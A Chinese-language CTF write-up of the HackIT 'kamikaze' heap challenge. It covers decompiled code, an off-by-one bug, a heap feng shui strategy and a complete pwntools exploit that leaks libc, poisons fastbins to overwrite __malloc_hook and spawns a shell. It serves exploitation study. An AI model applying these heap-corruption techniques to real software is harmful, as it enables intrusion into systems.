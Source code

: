 ```yaml
---
title: Kamikaze
date: 2018-10-20 23:37:37
tags: FengShui heap pwn
layout: post
---
```

heap fengshui
hackit ctf kamikaze
<!--more-->

# Start
Kamikaze做完之后我想Kamikaze......
感觉这题主要烦在利用难
做完之后收获挺大，堆风水思路很重要。。。

在风水先生的路上又前进了一步
#  分析
主要结构体
```arm
00000000
00000000 song            struc ; (sizeof=0x28, mappedto_6)
00000000 weight          dq ?
00000008 stanza          dq ?                    ; offset
00000010 next            dq ?                    ; offset
00000018 hook            dq ?
00000020 hook2           dq ?
00000028 song            ends
```

主要漏洞点
```arm
unsigned __int64 kamimaze()
{
  int i; // [rsp+Ch] [rbp-34h]
  int wei; // [rsp+10h] [rbp-30h]
  int seed; // [rsp+14h] [rbp-2Ch]
  song *ptr; // [rsp+18h] [rbp-28h]
  char buf; // [rsp+20h] [rbp-20h]
  unsigned __int64 v6; // [rsp+28h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  printf("Enter song weight: ");
  read(0, &buf, 4uLL);
  wei = atoi(&buf);
  ptr = song_list;
  if ( song_list )
  {
    while ( ptr->weight != wei )
    {
      if ( !ptr->next )
      {
        puts("Couldn't find the song");
        exit(0);
      }
      ptr = ptr->next;
    }
    printf("Enter seed: ", &buf);
    read(0, &buf, 4uLL);
    seed = atoi(&buf);
    if ( seed <= 1 || seed > 0xE )
      exit(0);
    for ( i = 0; i < strlen((const char *)&ptr->hook); ++i )// kamikaze off by one
      *((_BYTE *)&ptr->hook + i) ^= seed;
  }
  else
  {
    puts("You need to create a song first");
  }
  return __readfsqword(0x28u) ^ v6;
}
```

hook处用的是read，kamikaze处用的是strlen所以只要读满hook域然后用strlen就可以缩放size位
# 利用思路
* 只能使用fastbin....泄露不了libc
* 先用off by one 缩小topchunk 
* free一堆chunk进fast bin
* 使得topchunk<0x30
* 这时候会把fastbin里的chunk整合放入unsorted bin
* 泄露libc
* 如法炮制放大unsorted bin 造成overlap
* malloc完unsortedbin malloc topchunk之后利用overlap做uaf
* fastbin atk 写 __mallo_chook 
* free触发printerr

坑点:
* topchunk 最高字节恰好0x02用0x02去缩小(好巧)
* 链表结构常常做着做着被破坏。。
* leak的时候按照index而不是weight
* 为啥用的都是fgets，calloc...
* overlap的时候注意风水。。。（我tm调了一天。。）
* 记得先想好再去调。。。策略很重要

# EXP
```python
from pwn import *
def cmd(c):
	p.readuntil(">> ")
	p.sendline(str(c))
def add(weight,size,stanza,hook="".ljust(0x10,' ')):
	cmd(1)
	p.sendlineafter("Enter the weight of the song: ",str(weight))
	p.sendlineafter("Enter size of the stanza: ",str(size))
	p.sendlineafter("Enter the stanza: ",stanza)
	p.sendafter("Leave a short hook for it too: ",hook)
def edit(weight,stanza):
	cmd(2)
	p.sendlineafter("Enter song weight: ",str(weight))
	p.sendafter("Enter new stanza: ",stanza)
def free(weight):
	cmd(4)
	p.sendlineafter("Enter song weight: ",str(weight))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter song index: ",str(idx))
def kamikaze(weight,seed=2):
	cmd(3)
	p.sendlineafter("Enter song weight: ",str(weight))
	p.sendlineafter("Enter seed: ",str(seed))
	
#context.log_level="debug"
p=process("./kamikaze")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(256,0x20,"")#head
add(1,0x70,"")
add(2,0x20,"")
free(1)
free(2)
add(3,0x70,"")
add(4,0x20,"","A"*0x10)
kamikaze(4)
for x in range(5,35):
	add(x,0x28,"")
add(36,0x70,"")
for x in range(5,35):
	free(x)
add(36,0x70,"")#0x0000555555757d70
add(37,0x70,"")

for x in range(5,29):
	add(x,0x28,"")

free(37)
free(28)

add(39,0x70,"")
add(40,0x28,"","C"*0x10)

kamikaze(40,4)
#                  top: 0x555555757de0 (size : 0x20) 
#       last_remainder: 0x555555757af0 (size : 0x360) 
#            unsortbin: 0x555555757af0 (size : 0x360)
#free(36)
#free(4)
#add(41,0x70,"")#0x0000555555757cf0
#add(42,0x28,p64(0xdeaddead))

add(43,0x58,"")
add(44,0x40,"")
add(45,0x70,"")

show(3)
p.readuntil("Weight: ")
base=int(p.readline(),16)-(0x7ffff7dd1b78-0x00007ffff7a0d000)
log.warning(hex(base))
libc.address=base
free(3)
add(46,0x28,"")
add(47,0x28,"")
add(48,0x28,"")
add(49,0x28,p64(0)+p64(0x21001))
add(50,0x60,"")
add(51,0x60,"")
add(52,0x60,"")
add(53,0x30,"")
free(50)
cmd(1)
p.sendlineafter("Enter the weight of the song: ",str(54))
p.sendlineafter("Enter size of the stanza: ",str(0x58))
p.sendafter("Enter the stanza: ","\x00"*0x48+p64(0x71)+p64(libc.symbols['__malloc_hook']-35))
free(46)
free(47)
one=base+0xf02a4

add(55,0x30,p64(0)+p64(0x0000000000020fa1))
add(55,0x30,"")
add(56,0x68,"")
add(57,0x68,"A"*19+p64(one))
free(0x39)
#gdb.attach(p)
p.interactive("nier>")

```

加注释是这辈子都不可能加注释的